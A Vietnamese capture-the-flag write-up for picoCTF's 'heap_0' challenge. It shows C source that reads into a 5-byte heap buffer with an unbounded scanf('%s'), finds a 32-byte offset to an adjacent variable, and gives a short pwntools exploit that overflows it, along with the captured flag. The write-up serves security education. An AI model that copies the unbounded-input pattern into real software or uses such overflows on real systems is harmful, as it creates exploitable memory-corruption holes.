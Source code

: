 # Heap_0
Đến với bài này, đây là một bài ở mức `dễ` nên chắc nó dễ thật =))))

Challenge cho chúng ta 2 file, một file binary `chall` và một file .c `chall.c`. Mở file .c thì ta có source của chương trình như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap0!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	int rval = scanf("%d", &choice);
	if (rval == EOF){
	    exit(0);
	}
        if (rval != 1) {
            //printf("Invalid input. Please enter a valid choice.\n");
            //fflush(stdout);
            // Clear input buffer
            //while (getchar() != '\n');
            //continue;
	    exit(0);
        }

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Ta thấy chương trình sẽ chạy như sau:
- Khởi tạo heap bằng cách gọi hàm `init()`
- In ra nội dung của heap bằng cách gọi hàm `print_heap()`
- Khởi tạo menu bằng cách gọi hàm `print_menu()`
- Dựa vào input mà người dùng nhập vào, thực hiện các thao tác khác nhau với heap.

Ta nhìn vào hàm `check_win()`.

``` c
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Điều kiện để in flag là dữ liệu được lưu nơi địa chỉ mà `safe_var` trỏ đến khác với chuỗi `bico`.

Tiếp tục nhìn vào hàm `write_buffer()` ta thấy rằng việc nhập vào không giới hạn kí tự (ở lựa chọn số 2).

``` c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

Khởi chạy local:

![image](https://github.com/user-attachments/assets/4819b7d2-cb88-4fba-981b-bc44678ce2d2)

Ta thấy input nhập vào sẽ bắt đầu lưu trữ từ địa chỉ `0x627d6e71a6b0` và địa chỉ mà con trỏ `safe_var` trỏ đến là `0x627d6e71a6d0`. Ta có offset là 32 bytes, giờ ta sẽ nhập 33 kí tự 'a' để làm thay đổi dữ liệu được lưu trữ ở địa chỉ `0x627d6e71a6d0`.

![image](https://github.com/user-attachments/assets/fc16681f-189a-44a2-b782-2f3f0cbc6383)

Ta thấy dữ liệu được lưu trữ ở địa chỉ `0x627d6e71a6d0` đã thành a.

![image](https://github.com/user-attachments/assets/5e77f26a-51cb-41c3-9a3d-f54ef6fa15d4)

Và tôi `WIN`, giờ ta có file exploit như sau:

``` python
from pwn import *

#p = process('./chall')
p = remote('tethys.picoctf.net', 53076)
write = b'2'
flag = b'4'
payload = 33 * 'a'
p.sendline(write)
p.sendline(payload)
p.sendline(flag)
p.interactive()
```

Và ta có flag:
```
picoCTF{my_first_heap_overflow_0c473fe8}
```
